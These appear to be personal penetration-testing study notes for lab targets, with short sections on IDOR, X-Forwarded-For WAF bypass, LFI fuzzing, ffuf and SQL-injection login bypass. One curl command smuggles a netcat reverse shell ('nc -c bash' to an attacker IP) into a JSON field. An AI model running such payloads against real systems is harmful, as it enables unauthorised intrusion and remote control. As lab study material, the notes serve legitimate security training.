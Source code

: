 #### Client-Side Attacks

If there if a section where you can mail the company, refer to ../notes/client_side_attacks.md. Also look out for svc, anything where files with Macros can be accepted.

#### Exiftool

Use exiftool to analyze a few documents on the website, see what information you can get. Wget will give you better information than curl.

#### Brute-Force Passwords

Refer to ../notes/password_cracking.md

Additional Resources at "https://book.hacktricks.xyz/network-services-pentesting/pentesting-web".

#### IDOR

Appending another id to the api call to bypass restrictions.

```bash
GET /api/v1/messages?id=<Another_User_ID> # unauthorized
GET /api/v1/messages?id=<You_User_ID>&id=<Another_User_ID> # authorized
```

#### Retrieve cookie, response headers

```bash
curl -I http://$ip/filemanager/ # (retrieves a fresh cookie)
```

#### WAF Access Denied

Try adding X-Forwarded-For to gain some trust.

```bash
curl -H 'X-Forwarded-For: localhost' http://192.168.193.134:13337/logs
wfuzz -c -z file,/home/kali/repos/offsec/lists/lfi.txt --hc 404,500 -H 'X-Forwarded-For: localhost' 'http://192.168.193.134:13337/logs?file=FUZZ'
curl -X POST -H 'X-Forwarded-For: localhost' -H 'Content-Type: application/json' --data '{"user":"clumsyadmin", "url":";nc -c bash 192.168.45.178 443"}' 'http://192.168.193.134:13337/update'
```

#### Fuzzing Input Paramater

Find the parameter in Burp to what you want to FUZZ, as well as the Content-Type in Request Headers.
```
ffuf -u https://watch.streamio.htb/search.php -d "q=FUZZ" -w /opt/SecLists/Fuzzing/special-chars.txt -H 'Content-Type: application/x-www-form-urlencoded'
```

Note that it sends the payload non-url-encoded.


#### Bruteforcing Logins

First try `admin' or '1'='1`
